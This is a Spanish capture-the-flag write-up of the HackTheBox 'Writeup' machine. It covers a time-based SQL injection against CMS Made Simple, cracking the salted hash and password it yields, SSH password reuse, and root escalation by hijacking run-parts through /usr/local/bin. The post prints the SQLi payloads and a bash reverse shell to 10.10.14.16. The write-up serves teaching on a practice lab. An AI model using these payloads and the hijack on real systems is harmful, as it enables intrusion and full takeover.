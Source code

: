 ```yaml
---
layout      : post
title       : "HackTheBox - Writeup"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192banner.png
category    : [ htb ]
tags        : [ CMS, SQLi, path-hijacking, cracking ]
---
```

Máquina **Linux** nivel fácil, nos miraremos a los ojos con un **CMS** vulnerable a **SQLi time-based**. Haremos reutilización de credenciales y encontraremos un **PATH Hijacking** guapetón.

![192writeupHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192writeupHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [jkr](https://www.hackthebox.eu/profile/77141).

Bueno vueno weno, vamos inicialmente a encontrarnos con el gestor de contenido (CMS) **Made-Simple**, relacionaremos una explotación **SQL** basada en tiempo con el gestor, jugaremos y lograremos dumpear unas credenciales del usuario **jkr**. 

Tendremos en mente que las credenciales obtenidas solo son válidas contra el *CMS*, pero haciendo reutilización de contraseñas conseguimos una sesión en la máquina mediante **SSH** como el usuario **jkr**.

Enumerando si existen tareas programadas, veremos que cuando un usuario ingresa por **SSH** se hace el llamado al programa ***run-parts***, peeeeeeero es llamado como tal, sin ruta absoluta. Esto nos dará el impulso para pensar en un ataque tipo **PATH Hijacking**, teniendo esto en cuenta y que el usuario ***jkr*** está en el grupo **staff** lograremos obtener una reverse Shell como el usuario **root**.

...

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Vulnerabilidades conocidas (probablemente por eso el nombre de la máquina) y va 🧗 ante el realismo.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

a e i o uuuuuuuuuuuuuuuuuuuuuuuuuu.

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Vamos a empezar escaneando los puertos con **nmap**, así podemos ir encontrando alguna ruta de explotación/exploración ante la máquina:

```bash
❱ nmap -p- --open -v 10.10.10.138 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

Como resultado obtenemos:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Fri Jun  4 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.138
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.138 () Status: Up
Host: 10.10.10.138 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///  Ignored State: filtered (65533)
# Nmap done at Fri Jun  4 25:25:25 2021 -- 1 IP address (1 host up) scanned in 276.14 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)** |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)** |

**~(Para copiar los puertos directamente en la clipboard (aunque sean 2), hacemos uso de la función referenciada antes**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.138
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

Ahora hacemos un escaneo de scripts y versiones de cada puerto encontrado, así hacemos más directa nuestra investigación:

```bash
❱ nmap -p 22,80 -sC -sV 10.10.10.138 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Validamos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Fri Jun  4 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 25:25:25 2021 -- 1 IP address (1 host up) scanned in 10.67 seconds
```

Cositas relevantes:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.4p1 Debian 10+deb9u6 |
| 80     | HTTP     | Apache httpd 2.4.25 ((Debian)) |

* El puerto **80** tiene una entrada "escondida" llamada `/writeup/`.

Empecemos a explorar a ver que encontramos...

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

![192page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192page80.png)

Podemos destacar varias cositas:

* **Donkey DoS**.
* **jkr**: Probable usuario de "algo".
* **writeup.htb**: Dominio a tener en cuenta.

Veamos el recurso `/writeup/`:

![192page80_robotsTXT](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192page80_robotsTXT.png)

![192page80_writeup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192page80_writeup.png)

Bien, simplemente tiene algunos "writeups" (fragmentos) de otras máquinas de la plataforma, pero nada relevante...

Jugando con [Wappalyzer](https://www.google.com/search?client=firefox-b-d&q=wappalyzer) y [whatweb](http://todolinux.cl/wordpress/2015/12/19/whatweb-el-primer-reconocimiento-web/) vemos algo interesante:

```bash
❱ whatweb http://10.10.10.138/writeup
```

Nos responde con 2 peticiones, una hacia `/writeup` y otra hacia `/writeup/`:

```bash
http://10.10.10.138/writeup [301 Moved Permanently] Apache[2.4.25], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], RedirectLocation[http://10.10.10.138/writeup/], Title[301 Moved Permanently]
```

Hacia `/writeup/` está lo llamativo:

```bash
http://10.10.10.138/writeup/ [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[Home - writeup]
```

Un gestor de contenido llamado [CMS-Made-Simple](https://en.wikipedia.org/wiki/CMS_Made_Simple), no tenemos nada más, pero al menos sabemos el software que esta detrás de la web (: Ahora podemos (como prueba de siempre) buscar algunos exploits relacionados con él y ver si nuestra web es vulnerable a ellos 🕴️

...

## Explotación [#](#explotacion) {#explotacion}

Haciendo una búsqueda rápida como: `cms made simple exploit`, nos encontramos uno llamativo:

* [CMS Made Simple \< 2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635).
  * [CMS Made Simple up to 2.2.8 **m1_idlist** Time-Based SQLi](https://vuldb.com/?id.132463).

Se trata de una [inyección **SQL** basada en tiempo](https://www.sqlinjection.net/time-based/), no se necesita autenticación ni cosas extra. Las peticiones que hace, giran en torno a una en específico, si esa no nos diera respuesta, este exploit no nos funcionaría:

```py
...
url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
...
```

Donde `options.url` sería la URL que le pasemos, en nuestro caso: `http://10.10.10.138/writeup`.

Si validamos esa petición en la web, obtenemos:

![192page80_moduleinterfacePHP_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192page80_moduleinterfacePHP_done.png)

Bien, nos responde, no hay nada interesante en el texto, peeeeeeeeeero hemos confirmado que existe esa URL, por lo tanto podemos probar ahora si el exploit funciona. Lo descargamos y ejecutamos:

**(Originalmente el exploit está hecho en **Python 2.x**, pero tengo un problema con la librería `requests` en esa versión de **Py**, *por suerte* cambiando los `print ..` por `print(..)` nos permite ejecutar el programa con **Python 3** sin problemas)**

```bash
❱ python3 cms_made_simple_SQLi.py 
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

```bash
❱ python3 cms_made_simple_SQLi.py -u http://10.10.10.138/writeup
```

Y despues de un rato (al ser **time-based**, claramente es "demorado") obtenemos esto con base en la información de la base de datos del **CMS**:

![192bash_cmsmadesimpleSQLi_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192bash_cmsmadesimpleSQLi_done.png)

Bien, nos extrae en concreto la data de un usuario llamado **jkr** en la base de datos usada por el **CMS**, ¿pero como pasa esto?, bueno, enfoquémonos en como obtiene por ejemplo el valor ***salt*** de la ***password***.

#### 🧿 Entendemos la inyección SQL basada en tiempo

En el script usa esta sentencia:

```py
...
payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"   
...
```

Y así viaja la petición:

```py
...
url = url_vuln + "&m1_idlist=" + payload
...
```

Si nos fijamos en el **payload** vemos varias cosillas:

<span style="color: red;">1. </span>`a,b,1,5))`:

Es cuestión de jugar, entiendo que el que encontró la vulnerabilidad hizo eso, probar vaaaarias letras y números y concatenarlo con alguna inyección básica y ver cuál le daba resultado, por ejemplo `c,a,1))...` también funciona como **payload**. Siempre es cuestión de jugar y probar cosas...

<span style="color: red;">2. </span>`+`: 

Los usa como "encoders" de los espacios, ya que si ejecutamos la sentencia (**en la web**) sin esos "+", no se ejecuta la explotación.

<span style="color: red;">3. </span>La parte interesante:

...

Si quisiéramos validar algún **SQL blind** time-based en este caso, ejecutando algo tan sencillo como:

```bash
# Respuesta inmediata
❱ time curl "http://10.10.10.138/writeup/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=a,b,1,5"
real    0m0,253s
user    0m0,009s
sys     0m0,003s
...
# 3 segundos de delay si hay ejecucion exitosa :)
❱ time curl "http://10.10.10.138/writeup/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=a,b,1,5))+and+sleep(3)+--+"   
...
real    0m3,474s
user    0m0,009s
sys     0m0,008s
```

Y vemos los 3 segundos... Ya con lo que juguemos despues del **and** es inyección **SQL** (:

...

Ahora si e.e

```sql
+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+
```

Donde le indica que seleccione ([SELECT](http://sql.11sql.com/sql-select.htm)) algo, (si lo encuentra ejecuta `sleep(1)` (en el script **TIME** vale `1`), o sea, **hace un delay en la respuesta de un segundo (1)**) de ([FROM](https://www.w3schools.com/sql/sql_ref_from.asp)) la tabla `cms_siteprefs` donde ([WHERE](https://estradawebgroup.com/Post/Aprende-a-utilizar-las-condiciones-con-la-clausula-WHERE-de-SQL-/4297)) el valor de la columna `sitepref_value` **en este caso** empiece con (leyendo sobre **LIKE** se entenderá el porqué, igual abajo lo digo) ([LIKE](https://www.w3schools.com/sql/sql_like.asp) `...%`) el valor de la variable `ord_salt_temp`:

> Que toma el valor de cada letra con la que va iterando, ejemplo, prueba la `a` (¿empieza por con `a`?), la `b` (¿empieza con `b`?) y asi, eso va conformando ese valor, peeeeero no literalmente, lo pasa primero a decimal (valor ASCII del caracter) y despues a hexadecimal, ese si seria el resultado de la variable `ord_salt_temp`. Si algun caracter ejecuta el **sleep**, toma ese char y lo guarda para al final conformar (en este caso) el **salt** completo (:
>> ¿empieza con `a`? si, guarda la `a` y ahora haría: ¿empieza con `ab`? si, y etc e.e

El valor del **LIKE** por ejemplo con la letra `a` quedaría así: 

```sql
... like 0x6125+and...`
```

El **25** de **hex** a **Ascii** significa `%` (esto es sintaxis del propio [LIKE](https://www.w3schools.com/sql/sql_like.asp)).

**(Quizás me explique fatal, pero es sencillo de entender una vez miras el script)**

Y finalmente le añade a la búsqueda que el valor de la columna `sitepref_name` se parezca al valor hexadecimal `0x736974656d61736b` (que significa `sitemask` en **Ascii**)...

Con esto es que se consigue la explotación (: Ya va variando según lo que se quiera conseguir :)

...

Validando en internet que tipo de hash es, corroboramos que es tipo [MD5](https://www.nerion.es/blog/cifrado-md5/):

![192google_hashid_jkr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192google_hashid_jkr.png)

Podemos agregarle el valor [salt](https://es.quora.com/Qu%C3%A9-significa-agregar-un-salt-a-una-contrase%C3%B1a-hash) para terminar de confirmar que el formato del hash está bien:

![192google_hashidwithsalt_jkr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192google_hashidwithsalt_jkr.png)

Listones, todo perfeeeeeeecto.

Usando [esta guía](https://attackdefense.com/challengedetailsnoauth?cid=52) sobre "*Cracking Salted MD5 Hashes*", podemos empezar a jugar:

Generamos un archivo que contenga el **hash** y la **salt**:

```bash
❱ cat madeSimple_jkr.hash 
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Y ahora con **hashcat** pasamos data en algunos parámetros:

| Parámetro | Descripción |
| --------- | :---------- |
| -m         | Toma el tipo de hash con el que estamos tratando.   |
| -a         | Le indicamos el tipo de ataque que haremos, usaremos `0`, así entenderá que es un `dictionary-attack` (para poder hacer uso de **wordlists**). |
| \<hashfile\> | Pos eso :P El archivo donde esta nuestro hash       |
| \<wordlist\> | Y el archivo que usaremos como lista de palabras :) |
| -o         | Para que nos guarde el resultado en el archivo que indiquemos. |

Apoyándonos en [los ejemplos de hashes de **hashcat**](https://hashcat.net/wiki/doku.php?id=example_hashes) logramos obtener el valor de `-m`:

![192google_wikiexample_md5salts](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192google_wikiexample_md5salts.png)

Dos opciones, probamos con las dos por si algo :P

```bash
❱ hashcat -m 10 -a 0 madeSimple_jkr.hash /usr/share/wordlists/rockyou.txt -o cracked_plain.txt
...
Status...........: Exhausted
Hash.Name........: md5($pass.$salt)
...
```

Con el tipo de hash `10` no obtenemos respuesta, probando con el `20`:

```bash
❱ hashcat -m 20 -a 0 madeSimple_jkr.hash /usr/share/wordlists/rockyou.txt -o cracked_plain.txt
...
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
...
```

Opa, nos indica que fue crackeado, si validamos nuestro archivo `cracked_plain.txt` tenemos:

```bash
❱ cat cracked_plain.txt 
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

En valor en texto plano de ese hash y el salt es: `raykayjay9` 😵 Por lo tanto esa sería la contraseña del usuario `jkr` guardaba en la base de datos del **CMS**... 

Pero ¿Y si validamos si existe alguna reutilización de contraseñas por parte de **jkr**? Juguemos con el servicio **SSH** a ver si son válidas:

```bash
❱ ssh jkr@10.10.10.138
jkr@10.10.10.138's password:   
```

Yyyyyyyyyyyyyyyyyyyyyyyy:

![192bash_ssh_jkr_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192bash_ssh_jkr_done.png)

Perfessssto, tamos dentroooooooooooooooooooooooooo!

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Viendo los grupos en los que está el usuario **jkr**, vemos uno distinto a los usuales:

```bash
jkr@writeup:/$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)   
```

El grupo **staff**...

Buscando vemos que le permite a los usuarios que lo poseen **añadir** (o modificar) información en las rutas `/usr/local` y `/home` sin necesidad de privilegios, además:

> La "habilidad" de modificar `/usr/local` es equivalente a tener acceso como root, ya que `/usr/local` esta intencionalmente en cuanto a las *rutas de busqueda* antes de `/usr`. [Users and groups - Debian](https://www.chiark.greenend.org.uk/doc/base-passwd/users-and-groups.html).

La cita hace referencia a la variable `$PATH` del sistema, algunos procesos usan esa variable para buscar fuentes o binarios. Ahorita hablaremos de esto.

Estuve un tiempo jugando con ese grupo y un [exploit que lo relacionaba](https://www.halfdog.net/Security/2015/SetgidDirectoryPrivilegeEscalation/), pero no logre nada de ahí.

Está claro que para poder hacer algo con ese grupo y la ruta `/usr/local` necesitamos algún indicio de alguna tarea o ejecución por parte del sistema y no por parte de **jkr**, ya que podemos escribir en la ruta `/usr/local/bin`, pero si lo ejecutamos, será ejecutado como **jkr** :(

Enumerando los procesos internos (con base en lo dicho anteriormente), buscando alguna tarea cron o ejecución de la cual nos podamos aprovechar encontramos esto:

> Usaremos [pspy](https://github.com/DominicBreuker/pspy), que según su propia descripcion nos pemite ver comandos ejecutados por otros usuarios, tareas programadas, etc.

Lo bajamos a nuestra máquina (en nuestro caso comprobamos la arquitectura con el comando `lscpu` y vemos que estamos en una de **64 bits**, así que descargamos ese tipo de binario).

Despues lo pasamos a la máquina y ejecutamos:

```bash
jkr@writeup:/tmp$ ./pspy64
```

![192bash_pspy_plScript](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192bash_pspy_plScript.png)

Vemos una tarea programada, se ve que se ejecuta cada minuto y (según las pruebas que hice con el rabbit hole anterior) borra el contenido de la ruta `/usr/local/bin` (puede que haga otras cosas :P). Pero no nos podemos aprovechar de ella, ya que no tenemos acceso a el script y tampoco podemos pensar en algún **Path Hijacking, ya que los comandos están siendo llamados con su ruta absoluta :(

Usando otra terminal estaba ejecutando procesos (ps, netstat, etc) para con ayuda de **pspy** ver si aparecia algo extraño, pasa que estaba ciego y no me habia fijado en ese "algo" :P 

Cuando se establece una sesión por medio del servicio **SSH** vemos (bueno, estaba ciego y no lo habia visto) algo interesante:

![192bash_pspy_sshTask](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192bash_pspy_sshTask.png)

Vemos que al iniciar una sesión algún usuario por medio de **SSH** se le asigna la variable **$PATH** con varias rutas (ya miraremos esto), peeeeeeeeeero, tambien vemos la ejecución de **dos comandos** sin su ruta absoluta :o Acá ya podemos pensar en algo relacionado o parecido al **PATH Hijacking**:

Validando en que ruta esta el binario `sh` tenemos:

```bash
jkr@writeup:/tmp$ which sh
/bin/sh
```

Bien, y ahora validando la variable `$PATH`:

```bash
jkr@writeup:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

¿Como se relacionan esas dos instrucciones? Muy sencillo:

Al ejecutar `sh` (sin ruta absoluta (ejecutando con ruta absoluta seria `/bin/sh`)), el sistema necesita saber en donde esta el binario relacionado a esa cadena `"sh"`, entonces va a la variable `$PATH` y empieza a recorrer cada uno del los directorios que se encuentran en ella, entonces:

```bash
# Ejecutamos *whoami*
jkr@writeup:/tmp$ sh -c whoami
...
# Busca el binario "sh" en las rutas:
/usr/local/bin 
/usr/bin
/bin
...
```

Si lo encuentra en alguna, por ejemplo: /usr/local/bin/sh, lo ejecuta y termina de buscar, si no, sigue con la siguiente ruta hasta encontrarlo :P, asi de sencillo.

Teniendo esto en mente, podemos empezar a jugar...

Sabemos que el sistema ejecuta `sh` al iniciar sesion con **SSH**, pues empezara a buscar en las rutas del `$PATH` y lo encontraria en `/bin`, peeeero, podemos simplemente crear un archivo que se llame `sh` y moverlo a la ruta `/usr/local/bin`, al iniciar sesion con **SSH** el sistema buscara de nuevo pero ahora lo encontrara primero en esa ruta, por lo tanto será ejecutado :)

Acá no tenemos que preocuparnos en cambiar el valor de la varibale `$PATH` (que por lo general debemos hacer lo en un **PATH Hijacking**), entonces nnos quitamos un paso, demosle:

Como prueba, hagamos que el archivo nos cree otro archivo (e.e) al ser ejecutado, asi validamos que tamos haciendo las cosas bien:

```bash
jkr@writeup:/tmp$ echo "echo 'hola, escrito reemplazando el binario sh' > /tmp/sh_patHijack.txt" > sh
jkr@writeup:/tmp$ cat sh 
echo 'hola, escrito reemplazando el binario sh' > /tmp/sh_patHijack.txt
```

Si se ejecuta, tendremos el archivo `sh_patHijack.txt` en la ruta `/tmp`. Le damos permisos de ejecución y lo movemos a la ruta `/usr/local/bin`:

```bash
jkr@writeup:/tmp$ chmod +x sh 
jkr@writeup:/tmp$ cp sh /usr/local/bin/
jkr@writeup:/tmp$ ls -la /usr/local/bin/sh
-rwxr-xr-x 1 jkr staff 72 Jun  6 20:18 /usr/local/bin/sh   
```

Usamos la otra terminal e iniciamos sesión, validamos si se genero el archivo:

```bash
jkr@writeup:~$ ls -la /tmp/ | grep sh
-rwxr-xr-x  1 jkr  jkr       72 Jun  6 20:16 sh
```

Pero no, no pasa nada...

Si recordamos, hay otro comando que se esta ejecutando llamado `run-parts`:

> run-parts - Ejecuta scripts o programas en un directorio.

Pues podemos hacer exactamente el mismo procedimiento, validamos que ruta tiene el binario por default, vemos si es necesario modificar la variable `$PATH` (no es necesario), generamos un archivo que se llame igual al original, damos permisos, movemos a la ruta `/usr/local/bin` y entramos con **SSH**. Veamos entonces:

```bash
jkr@writeup:/tmp$ echo "echo 'hola, escrito reemplazando el binario run-parts' > /tmp/run_patHijack.txt" > run-parts   
jkr@writeup:/tmp$ chmod +x run-parts
jkr@writeup:/tmp$ cp run-parts /usr/local/bin/
jkr@writeup:/tmp$ ls -la /usr/local/bin/run-parts
-rwxr-xr-x 1 jkr staff 80 Jun  6 20:25 /usr/local/bin/run-parts
...
❱ ssh jkr@10.10.10.138
...
jkr@writeup:~$ ls -la /tmp | grep run
-rwxr-xr-x  1 jkr  jkr       80 Jun  6 20:24 run-parts
-rw-r--r--  1 root root      48 Jun  6 20:26 run_patHijack.txt
jkr@writeup:~$ cat /tmp/run_patHijack.txt 
hola, escrito reemplazando el binario run-parts
```

Opa 🤸‍♀️ Pues ha funcionaaaao (:

Ahora podemos usar el **PATH Hijacking** para ejecutar cualquier comando como el usuario **root**, pues entablemonos una reverse shell ahí de rapidez:

```bash
jkr@writeup:/tmp$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.16/4433 0>&1'" > run-parts   
jkr@writeup:/tmp$ cat run-parts 
bash -c 'bash -i >& /dev/tcp/10.10.14.16/4433 0>&1'
jkr@writeup:/tmp$ cp run-parts /usr/local/bin/
jkr@writeup:/tmp$ ls -la /usr/local/bin/run-parts
-rwxr-xr-x 1 jkr staff 52 Jun  6 21:31 /usr/local/bin/run-parts
```

![192bash_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192bash_rootSH.png)

LISTONEEEEEEEEEEEEEEEEEEEEEEEEEEEEEES!! Tamos dentro como el usuario **root**, echemosle un ojo a las flags:

![192flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writeup/192flags.png)

Emho akabhao'

...

Linda experiencia. El **PATH Hijacking** estuvo lindo, pero me gusto más el como lo encontramos...

Listoooooooones... Vamos caminando por un desierto (e.e), miramos el techo (u.u) y nos encontramos una nota en el suelo (o.o) y dice: "A seguir rompiendo TODO!!" ❤️
